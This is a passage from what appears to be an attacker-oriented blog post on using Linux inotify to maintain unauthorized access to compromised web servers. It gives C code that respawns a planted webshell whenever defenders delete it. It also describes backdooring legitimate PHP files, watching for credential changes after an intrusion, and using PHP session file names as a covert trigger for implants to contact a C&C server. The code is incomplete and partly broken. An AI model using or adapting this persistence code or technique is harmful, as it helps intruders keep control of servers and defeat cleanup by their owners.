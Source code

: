 ```c
int main(int argc, char **argv){
    int length, i= 0, wd;
    int fd; 
    char buffer[BUF_LEN];

    //Initiate inotify
    if ((fd = inotify_init()) < 0) {
        printf("Could not initiate inotify!!\n");
        return -1;
    }

    //Webshell location
    if ((wd = inotify_add_watch(fd, "/var/www/html/my_shinny_webshell.php", IN_DELETE | IN_DELETE_SELF) == -1) {
        printf("Could not add a watcher!!\n");
        return -2;
    }

    //Main loop 
    while(1) {
        i = 0;
        length = read(fd, buffer, BUF_LEN);
        if (length < 0) {
            return -3;
        }

        while (i < length) {
            struct inotify_event *event = (struct inotify_event *)&buffer[i];
            if (event->len) {
                
      			respawn_webshell();
                
                i += EVENT_SIZE + event->len;
            }
        }
    }

}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Another related idea is to check when a legit PHP file was modified and then add our backdoor to that file. Or, for example, we can monitor config files to check if the credentials are changed at some point after our intrusion.


## 0x02 Trigger malware actions based on session names (PHP)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can use the name of the files created to store PHP sessions as a covert channel in order to communicate commands to our implants. For example, imagine a perimetral web server with an application made in PHP that was pwned by us, where our unique way to interact with our implants is via the web. If we are not interested in generate too much outbound traffic via polling an idea to keep in mind (and yes, there are tons of alternatives, this is just one more to add to your playbook) is to use inotify to monitor the directory where PHP sessions are created and create a trigger based on that. When a condition is met (for example, the creation of a file with the name sess_ALEAIACTAESTXX) we start the comunication with the C&C.
